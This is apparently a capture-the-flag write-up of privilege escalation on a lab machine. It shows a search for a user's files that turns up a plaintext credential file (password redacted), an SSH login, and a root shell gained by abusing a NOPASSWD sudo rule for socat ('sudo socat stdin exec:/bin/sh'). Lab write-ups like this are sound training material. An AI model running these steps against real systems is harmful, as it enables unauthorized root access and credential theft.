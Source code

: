 ## Privilege Escalation elyana
While I was trying to get the user flag I wasn't able to read it due to permissions. But I found the following file:
```bash
$ cat hint.txt
Elyana's user password is hidden in the system. Find it ;)
```
I searched for all files which belong to elyana:

```bash
$ find / -user elyana -type f 2>/dev/null
$ cat /etc/mysql/conf.d/private.txt
  user: elyana
  password: [removed]
  
$ ssh elyana@10.10.101.239
-bash-4.4$ whoami
  elyana
-bash-4.4$ cat user.txt 
  [*** removed ***]
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
  Matching Defaults entries for elyana on elyana:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User elyana may run the following commands on elyana:
      (ALL) NOPASSWD: /usr/bin/socat
```
A quick search in <a href="https://gtfobins.github.io/gtfobins/###/">gftobins</a> gave me all I needed:
```bash
-bash-4.4$ sudo socat stdin exec:/bin/sh
  whoami
  root
  cat /root/root.txt
  [*** removed ***]
```

solved! :)
